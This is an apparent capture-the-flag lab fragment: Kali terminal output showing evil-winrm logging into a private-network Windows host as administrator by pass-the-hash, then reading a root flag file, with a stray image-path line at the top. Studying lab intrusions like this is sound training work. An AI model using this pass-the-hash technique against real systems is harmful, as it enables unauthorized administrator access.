 Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> ls


    Directory: C:\Users\Administrator\Documents


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         7/17/2025   7:46 AM             32 root_flag.txt


*Evil-WinRM* PS C:\Users\Administrator\Documents> 




---------------------------------------------------------


┌──(kali㉿kali)-[~/Documents/mentality]
└─$  evil-winrm -i 192.168.56.107 -u administrator -H 058a4c99bab8b3d04a6bd959f95ce2b2
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> ls


    Directory: C:\Users\Administrator\Documents


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         7/17/2025   7:46 AM             32 root_flag.txt


*Evil-WinRM* PS C:\Users\Administrator\Documents> type root_flag.txt
40422aa842d4917d88a885b10cb4b2d9
*Evil-WinRM* PS C:\Users\Administrator\Documents> 
